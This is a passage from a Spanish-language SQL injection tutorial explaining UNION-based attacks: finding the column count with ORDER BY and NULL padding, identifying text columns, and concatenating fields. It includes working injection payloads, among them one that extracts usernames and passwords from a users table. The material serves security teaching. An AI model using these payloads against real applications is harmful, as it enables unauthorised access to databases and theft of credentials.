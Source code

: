 ```yaml
---
layout: default
title: 3. Inyecciones clásicas con datos visibles
permalink: /injection_types/classic
nav_order: 5
has_children: true
---
```


# Inyecciones clásicas con datos visibles

Existen muchas variantes donde afectar en un punto de inyección cambia los resultados, por ejemplo en un **nombre de columna o las condiciones** de la cláusula `WHERE`. Esto extrae datos no previstos por la aplicación dentro de la tabla de la consulta original.

Sin embargo, cuando se quiere obtener información en masa y de otras partes de la base de datos, hay técnicas efectivas que se adaptan. La predominante se da con ataques que utilizan el operador `UNION`.

## Introducción a ataques UNION

La palabra `UNION` permite ejecutar más de una consulta `SELECT` y ubicar el resultado de una después de la otra, en el orden que se hayan escrito. En el siguiente ejemplo genérico:

```sql
SELECT a, b FROM tabla1 UNION SELECT c, d FROM tabla2
```

Si `tabla1` es:

| a | b |
| :-: | :-: |
| 111 | aaa |
| 222 | bbb |

Y `tabla2` es:

| c | d |
| :-: | :-: |
| 333 | yyy |

La consulta retorna el conjunto:

| col1 | col2 |
| :-: | :-: |
| 111 | aaa |
| 222 | bbb |
| 333 | yyy |

Para que una consulta `UNION` funcione, las **dos condiciones que tienen que cumplirse son**:
1. El **número de columnas** de todas las uniones coincide.
2. Los **tipos de datos** de cada columna deben ser compatibles en la misma posición resultante.

Determinar el número de columnas y tipos de datos de cada una en la consulta SQL original es vital.

## Determinar número de columnas

### ORDER BY

Hay dos formas básicas de determinar el número de columnas de la consulta original. La primera es abusar de la cláusula `ORDER BY`. Si bien lo común es escribir el nombre de la columna por la cual ordenar, también se permite elegir un número de posición o índice. Por ejemplo, asumiendo la siguiente consulta vulnerable:

```sql
SELECT a, b FROM tabla1 WHERE b = 'INYECTABLE AQUÍ'
```

El *payload* `' ORDER BY 1--` se reflejaría así:

```sql
SELECT a, b FROM tabla1 WHERE b = 'XYZ' ORDER BY 1--'
```

La consulta no tiene errores de sintaxis. Así se puede continuar con el número 2, 3, etc. hasta que eventualmente surja un error por pasarse del índice máximo, como:

```
The ORDER BY position number 3 is out of range of the number of items in the select list.
```

Las reacciones de la aplicación pueden ser varias, pero deben indicar un cambio de comportamiento debido a un error. Luego de esto se puede escribir el `UNION` con la cantidad de columnas exactas.

### Valores NULL

La segunda forma es inyectar el `UNION` comenzando por una sola columna, con el valor `NULL`, e incrementar las columnas nulas hasta que ya no se detecten errores:

```
' UNION SELECT NULL--
' UNION SELECT NULL,NULL--
' UNION SELECT NULL,NULL,NULL--
```

Un ejemplo de error podría ser:

```
All queries combined using a UNION, INTERSECT or EXCEPT operator must have an equal number of expressions in their target lists.
```

Esto funciona porque `NULL` es convertible a cualquier tipo de dato común. A tener en cuenta: en los DBMS populares esa sintaxis es viable, pero en el caso de Oracle se necesita referir a una tabla que viene con ese DBMS llamada `DUAL`:

```
' UNION SELECT NULL FROM DUAL--
```

## Determinar columnas con tipo de dato útil

El objetivo de SQLi con `UNION` es obtener datos, por lo general va a interesar que sean de tipo texto o *string*. Identificar la mayor cantidad de columnas de texto da flexibilidad para extraer y procesar los resultados. Sabiendo ya el número de columnas exactas, solo es necesario **probar con cualquier texto literal fijo** en cada columna y ver cuáles combinaciones arrojan error, por ejemplo:

```
' UNION SELECT 'a',NULL,NULL,NULL--
' UNION SELECT NULL,'a',NULL,NULL--
' UNION SELECT NULL,NULL,'a',NULL--
' UNION SELECT NULL,NULL,NULL,'a'--
```

Si el tipo de dato no es compatible hay chances de que se genere un error como:

```
Conversion failed when converting the varchar value 'a' to data type int.
```

Esto es análogo para otros tipos de dato si fuera necesario aplicarlo.

## Acumular en una columna

¿Qué sucede si se necesita más de una columna para los datos que se intentan extraer pero la consulta no tiene suficientes columnas de ese tipo?

Suponiendo un escenario donde el `UNION` admite **una sola columna** de tipo texto, pero como atacante se quieren obtener al menos dos columnas, se pueden aplicar operaciones de concatenación (u otras transformaciones) **sobre una única columna**. El siguiente es un ejemplo en Oracle para concatenar las credenciales de un usuario:

```
' UNION SELECT username || '~' || password FROM users--
```

Esto devuelve **una columna** con el contenido de dos, separando con el caracter `~` para distinguir comienzo y fin. El operador `||` es la concatenación. Como referencia de operadores válidos (puede diferir en versiones):

| Oracle, PostgreSQL | `'foo'||'bar'` |
| SQL Server | `'foo'+'bar'` |
| MySQL | `'foo' 'bar'` [Con espacio] <br> `CONCAT('foo','bar')` |
